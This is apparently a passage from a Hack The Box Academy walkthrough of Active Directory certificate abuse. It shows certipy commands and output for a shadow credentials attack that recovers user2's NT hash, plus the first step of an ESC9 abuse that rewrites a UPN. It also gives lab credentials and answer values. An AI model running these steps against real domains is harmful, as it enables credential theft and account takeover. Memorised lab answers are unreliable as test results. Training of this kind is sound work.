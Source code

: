 ```shell
certipy shadow auto -u blwasp@lab.local -p Password123! -account user2
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy shadow auto -u blwasp@lab.local -p Password123! -account user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'user2'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'bddd49f4-baa6-4f7f-e04c-4d87cf381bc5'
[*] Adding Key Credential with device ID 'bddd49f4-baa6-4f7f-e04c-4d87cf381bc5' to the Key Credentials for 'user2'
[*] Successfully added Key Credential with device ID 'bddd49f4-baa6-4f7f-e04c-4d87cf381bc5' to the Key Credentials for 'user2'
[*] Authenticating as 'user2' with the certificate
[*] Using principal: user2@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'user2.ccache'
[*] Trying to retrieve NT hash for 'user2'
[*] Restoring the old Key Credentials for 'user2'
[*] Successfully restored the old Key Credentials for 'user2'
[*] NT hash for 'user2': ee22ddf0f8a66db4217050e6a948f9d6
```

Answer: `ee22ddf0f8a66db4217050e6a948f9d6`

## ESC9

### Question 2

#### "Abuse the ESC9 misconfiguration. What is the NT hash of user3?"

To abuse `ESC9` and steal the NT hash of the user `user3`, students first need to update the `UPN` of `user2` to be that of `user3` by using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` option and `user3` for the `-upn` option:

Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user3
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user3

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : user3
[*] Successfully updated 'user2'
```
